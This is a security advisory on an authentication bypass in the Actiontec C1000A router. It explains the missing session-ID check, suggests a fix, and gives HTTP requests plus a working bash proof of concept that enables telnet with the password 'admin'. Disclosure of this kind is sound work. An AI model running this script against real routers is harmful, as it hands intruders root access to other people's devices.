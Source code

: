 # Actiontec C1000A DSL CenturyLink router Authentication Bypass vulnerability

**Vendor**: Actiontec

**Product**: C1000A

**Firmware Version**: CAC004-31.30L.95

## High level overview:
A remote attacker can change system settings using the HTTP configuration interface of the Actiontec C1000A router without authentication. An attacker can change 
various configuration settings on the router, such as enabling the router's Telnet server and set a Telnet password with this vulnerability, gaining root shell access 
to the device.

## Product information:
CenturyLink branded Actiontec C1000A router running firmware version CAC004-31.30L.95 (the latest firmware version as of December 5, 2020).

## Root cause analysis:
The authentication for the web interface on the C1000A has two parts: the session key and the session ID. The session key is a key randomly generated by the server and 
is only good for one action (a sort of CSRF key). The key is written into the JavaScript code of each web page served by the router's HTTP server. The second part of 
authentication is the session ID. The session ID is an ID set by the client randomly. To authenticate, the client sends a username and base64 encoded password along with 
a session key and a session ID like so:

```
POST /login.cgi HTTP/1.1

adminUserName=admin&adminPassword=YWRtaW4%3D&sessionKey=1809317030&sessionId=1234&nothankyou=1
```

Once the client authenticates, the HTTP server registers the clients session ID and sends back a Set-Cookie header with that session ID. Whenever the client visits a 
router configuration page (such as /advancedsetup_firewallsettings.html), the server will check the session ID cookie, and if the cookie is valid, will let the client 
access the page. However, many of the CGI scripts which are built in to the HTTP server do not check the session ID, but only the session key and if a valid session ID 
is active (an administrator is logged in somewhere), and this is where the flaw is. Any unauthenticated user can get a session key from the server by sending a GET 
request to /login.html, and thus are able to change router settings. For example, an unauthenticated attacker can send a POST request to /advancedsetup_remotetelnet.cgi 
to set the Telnet password with only a session key as authentication:

```
POST /advancedsetup_remotetelnet.cgi HTTP/1.1

serCtlTelnet=3&remTelUser=admin&remTelTimeout=300&remTelPassChanged=1&nothankyou=0&remTelPass=dXQzYlA3bWM%3D&sessionKey=559592963
```

Decompiling the /bin/httpd binary from the router, many CGI pages rely on the function cgiValidateSessionKey() to determine if a CGI request is valid. For example, the 
function do_wl_cgi(), which handles CGI requests to change wireless LAN settings, contains this code to validate the request:

```
  iVar1 = cgiValidateSessionKey(param_2);
  if (iVar1 != 0) {
    return;
  }
```

No mention of the session ID exists in the function anywhere. The function cgiValidateSessionKey() simply checks if the session key supplied by the client matches the 
one generated by the server.

To fix this issue, in the CGI handling code, a check against the session ID needs to be added in addition to the existing session key check. There is already a function 
in the code which validates the session ID, AEI_validateSessionID().

## Proof of concept:
This proof of concept written in bash enables the telnet daemon on the router and sets the telnet password to 'admin':
```
#!/bin/sh
# This script requires curl
# Enables telnet and sets the telnet password to 'admin' on the Actiontec C1000a router
server=192.168.0.1
echo "Setting telnet password on" $server
printf '\n\n'
key=$(curl http://$server/login.html | grep "var sessionKey" | cut -d "'" -f2)
out=$(curl -d 'serCtlTelnet=3&remTelUser=admin&remTelTimeout=300&remTelPassChanged=1&nothankyou=0&remTelPass=YWRtaW4%3D&sessionKey='$key \
http://$server/advancedsetup_remotetelnet.cgi)
echo $out | head -c 500
printf '\n\n'
echo "If 'Invalid session key' prints, it means the session key failed."
echo "If 'Enter the administrator username' prints, it means that there is no active session on the router."
echo "If 'Saving Settings' prints, it means that the telnet password was successfully changed."
printf '\n\n'
echo $out | grep "Invalid"
echo $out | grep -o "Enter the administrator username"
echo $out | grep -o "Saving Settings"
```
